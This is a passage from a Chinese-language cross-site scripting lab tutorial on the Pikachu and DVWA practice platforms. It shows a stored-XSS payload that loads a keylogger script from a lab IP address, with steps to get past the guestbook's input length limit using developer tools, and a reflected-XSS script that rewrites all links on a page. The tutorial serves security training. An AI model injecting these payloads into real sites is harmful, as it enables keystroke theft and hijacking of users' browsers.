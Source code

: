 我们还是用pikachu的平台

#### 2.构造payload：

```
<script src='http://192.168.81.135/pikachu/pkxss/rkeypress/rk.js'></script>
```

我们用DVWA存储型XSS页面攻击

这里有个坑： 我们发现输入的内容长度被限制了，后面的输不进去了，怎么办？

![image-20211223112725319](https://gitee.com/xxb667/img/raw/master/img/image-20211223112725319.png)

按F12打开开发者工具

按顺序点击图上的步骤

![image-20211223113009125](https://gitee.com/xxb667/img/raw/master/img/image-20211223113009125.png)



然后复制我们的payload 到留言板点击`Sign Guestbook`

然后我们在 存储型XSS页面随便点击键盘

![image-20211223113222751](https://gitee.com/xxb667/img/raw/master/img/image-20211223113222751.png)

#### 3.抓取键盘记录

打开我们的键盘记录页面

键盘输入内容

![image-20211223113401790](https://gitee.com/xxb667/img/raw/master/img/image-20211223113401790.png)

进行抓取

![image-20211223113417381](https://gitee.com/xxb667/img/raw/master/img/image-20211223113417381.png)

# XSS 攻击的应用

## 0x01：反射型 XSS 攻击劫持用户浏览器

### 1.构建反射型XSS攻击

我们先构建一个反射型的 XSS 攻击跳转到存在漏洞的页面

```
<script>
	window.onload = function() {
	var link=document.getElementsByTagName("a");
	for(j = 0; j < link.length; j++) {
		link[j].href="http://baidu.com";}
	}
</script>
```
